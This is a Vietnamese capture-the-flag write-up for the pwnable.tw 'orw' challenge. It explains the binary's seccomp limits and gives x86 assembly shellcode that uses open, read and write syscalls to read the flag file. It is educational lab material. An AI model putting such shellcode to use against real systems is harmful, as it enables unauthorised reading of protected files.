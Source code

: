 # [pwnable.tw] - orw

<img src="./images/orw.png" alt="Start" width="500" height="300">

## A. CHALLENGE 

### [1] Binary Mitigations. 

- Đầu tiên ta kiếm tra các mitigations và xem thông tin cơ bản của file.

![checksec.png](./images/checksec.png)

- Chương trình 32-bit khá đơn giản, cho phép nhập một chuỗi đầu vào (là shellcode) và cuối hàm main thì gọi tới `function pointer` trỏ tới shellcode mà chúng ta đã nhập. 

![execute.png](./images/execute.png)

## B. OVERVIEW

### [1] Vulnerability Analysis.

- Phần hint của bài cũng đã mô tả khá rõ là ta chỉ có thể dùng shellcode `open`, `read` và `write` để đọc flag, khi chúng ta nhập input là shellcode thì chương trình sẽ thực thi shellcode đó. 

![seccomp.png](./images/seccomp.png)

### [2] Idea Exploit.

- Chúng ta sẽ dùng **syscall_open** để mở file flag ở **/home/orw/flag** và dùng **syscall_read**, **syscall_write** để đọc và ghi flag ra **terminal**.
## C. EXPLOITATION

### [1] Stage 1: Shellcode

- Đầu tiên sẽ là shellcode `syscall_open` mở file flag ở `/home/orw/flag`. 

```asm
	xor ecx,ecx                ; clear the ecx registry
	mov eax, 0x5               ; sys_open
	push ecx                   ; push a NULL value unto the stack
	push 0x67616c66            ; galf (flag)
	push 0x2f77726f            ; /wro (orw/)
	push 0x2f656d6f            ; /emo (ome/)
	push 0x682f2f2f            ; h/// (///h)
	mov ebx, esp               ; move contents to ebx
	xor edx, edx               ; clear the edx registry
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Tiếp theo là `syscall_read` và `syscall_write` để đọc và ghi flag.

```asm
	mov eax, 0x3               ; sys_read
	mov ecx, ebx               ; contents of the flag file
	mov ebx, 0x3               ; fd
	mov dl, 0x30               ; decimal 48, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall

	mov eax, 0x4               ; sys_write
	mov bl, 0x1                ; decimal 1, used for the interrupt
	int 0x80                   ; interrupt, call the kernel to execute the syscall
```

- Trên đây là code asm không phải là shellcode, bạn có thể dùng các hàm có sẵn trong `pwntools` để chuyển code trên thành shellcode. 

```c
char *fn = “/home/orw/flag”;
sys_open(fn, 0, 0);
sys_read(3, fn, 0x30);
sys_write(1, fn, 0x30);
```

* __NOTE:__ Tools online [defuse.ca](https://defuse.ca/online-x86-assembler.htm#disassembly2) chuyển asm => shellcode.


## D. FLAG

- Tiến hành viết file [exp.py](./exp.py) và khai thác:

![flag.png](./images/flag.png)